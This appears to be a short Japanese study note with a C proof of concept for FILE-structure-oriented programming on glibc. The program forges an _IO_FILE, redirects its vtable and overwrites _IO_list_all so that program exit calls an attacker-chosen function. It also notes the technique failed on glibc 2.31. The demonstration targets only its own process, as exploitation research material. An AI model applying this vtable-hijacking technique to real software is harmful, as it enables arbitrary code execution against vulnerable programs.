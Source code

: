 ちなみに動かなかった2.31
```
Ubuntu GLIBC 2.31-0ubuntu9.7
BuildID[sha1]=9fdb74e7b217d06c93172a8243f8547f947ee6d1
```

以下は本来のvtable+0x8にtarget関数のアドレスを、偽造したファイル構造体のvtableメンバを本来のvtableから-0x10した値にセットしている。
```c
#include <stdio.h>
#include <stdlib.h>
// differ in each environment
unsigned long off_puts = 0x875a0;
unsigned long off_IO_list_all = 0x1ec5a0;
unsigned long off_vtable = 0x1ed4a0;

void target1(unsigned long arg1)
{
    printf("In target1(): arg1=0x%lx\n", arg1);
    return;
}

void main()
{
    printf("Start of main()\n");

    void* libc_base = &puts - (unsigned long)off_puts;
    printf("libc_base = %p\n",libc_base);
    void* IO_list_all = libc_base + off_IO_list_all;
    printf("IO_list_all = %p\n",IO_list_all);
    void* vtable = libc_base + off_vtable;
    printf("vtable = %p\n",vtable);

    // prepare for exploit
    void* fake_io_struct = malloc(0x400);
    printf("fake_io_struct = %p\n", fake_io_struct);

    *(unsigned long*)(fake_io_struct+ 0x0) = 0xdeadbeef;    // *fp  arg1
    *(unsigned long*)(fake_io_struct+0x20) = 0;             // _IO_write_base
    *(unsigned long*)(fake_io_struct+0x28) = 1;             // _IO_write_end
    *(int*)(fake_io_struct+0xc0) = 0;                       // _mode
    *(unsigned long*)(fake_io_struct+0xd8) = (unsigned long)vtable - 0x10; // vtable

    // overwrite symbols
    *(unsigned long*)(vtable + 0x8) = target1; // fake _IO_OVERFLOW
    *(unsigned long*)IO_list_all = fake_io_struct;

    puts("End of main()");
    // _exit(0); //not work
    // exit(0);
    return;
}
```
